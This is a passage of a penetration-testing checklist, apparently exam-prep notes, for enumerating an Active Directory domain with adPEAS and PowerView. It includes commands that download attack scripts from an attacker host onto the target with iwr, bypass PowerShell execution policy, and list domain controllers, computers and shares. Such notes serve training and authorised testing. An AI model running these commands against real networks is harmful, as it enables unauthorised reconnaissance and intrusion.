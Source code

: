 - [ ] Use the iwr cmdlet to download `adPEAS.ps1` on the Target Machine
```powershell
powershell iwr -uri http://192.168.xxx.xxx:80/adPEAS.ps1 -Outfile adPEAS.ps1
```

- [ ] Import `adPEAS.ps1` on the Target Machine
```powershell
powershell -ep bypass
. .\adPEAS.ps1
```

- [ ] Use `adPEAS.ps1` on the Target Machine
```powershell
Invoke-adPEAS
```

## PowerView.ps1

- [ ] Copy and serve `PowerView.ps1` on your Kali Machine
```bash
cp /usr/share/windows-resources/powersploit/Recon/PowerView.ps1 .
python3 -m http.server 80
```

- [ ] Use the iwr cmdlet to download `PowerView.ps1` on the Target Machine
```powershell
powershell iwr -uri http://192.168.xxx.xxx:80/PowerView.ps1 -Outfile PowerView.ps1
```

- [ ] Import `PowerView.ps1` on the Target Machine
```powershell
powershell -ep bypass
. .\PowerView.ps1
```

### Domain information
- [ ] List domain information on the Target Machine
```powershell
Get-NetDomain
```

- [ ] List the domain controllers for the current or specified domain on the Target Machine
```powershell
Get-NetDomainController
```

- [ ] List domain computer objects on the Target Machine
```powershell
Get-NetComputer
```
```powershell
Get-NetComputer | select samaccountname, dnshostname, operatingsystem, operatingsystemversion
```

- [ ] List IP address of domain computer (E.g., web69) on the Target Machine
```powershell
Resolve-IPAddress -ComputerName web69
```
- pinging hostname may work as well
### Domain shares
- [ ] List domain shares on the Target Machine
```powershell
Find-DomainShare
```
